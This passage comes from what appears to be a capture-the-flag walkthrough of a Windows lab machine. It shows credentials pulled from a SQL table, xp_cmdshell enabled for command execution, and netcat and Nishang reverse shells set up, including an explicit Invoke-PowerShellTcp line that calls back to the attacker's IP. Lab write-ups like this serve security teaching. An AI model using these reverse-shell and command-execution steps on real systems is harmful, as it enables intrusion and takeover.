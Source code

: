 We will find an interesting table named `UserImport` in the `ScrambleHR` database. If we recall, it is the database where the `PDF` document stated that the credentials were in. We will enumerate all the columns in this table:

![Desktop View](db2.png){: w="700" h="400" }
_Password in Table_

We can see how we can find some credentials as stated in the `PDF` document.

```text
AD -> MiscSvc -> ScrambledEggs9900
```
{: file="credentials/access/credentials.txt"}

In addition, if we visualize the help panel, we can see that we can activate the `xp_cmdshell` function. This function allows us to execute `cmd` commands in the machine hosting the `SQL` database. We will first activate it and then try the execution of commands:

![Desktop View](db3.png){: w="700" h="400" }
_xp_cmdshell_

### Reverse Shells

#### SQLSvc

Having command execution as the `sqlsvc` user, we will try to send a reverse shell to our machine in order to have a proper shell to operate from.

First, we will host the `nc64.exe` binary with `python3 -m http.server` and then we will download it to the target machine. Additionally, we will listen on port 443 with `rlwrap nc -nlvp 443`. Finally, we will send a reverse shell from the target machine to our machine on port 443 with the `nc64.exe` binary:

![Desktop View](rev1.png){: w="700" h="400" }
_SQLSvc Reverse Shell_

We can see that we have a shell as the `sqlsvc` user.

#### MiscSvc

Having a shell as the `sqlsvc` user to operate as well as the credentials for the `miscsvc` user, we will try to send a reverse shell as the `miscsvc` user to our machine using the `Invoke-PowerShellTcp.ps1` `Powershell` script from [Nishang](https://github.com/samratashok/nishang).

First, we will edit the `Invoke-PowerShellTcp.ps1` script, and we will add the following command at the end of the script. This will have an advantage as we can run the script directly when it is downloaded without having to download it first and then run it. We will indicate that we want a reverse shell, the IP address of our machine, and the port that we want to use (9000):

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 9000
```

We will host this file with `python3 -m http.server`.

Then, on the target machine, we will execute the following commands in order to create secure `PSCredentials` with the password that we have retrieved from the database for the `miscsvc` user:
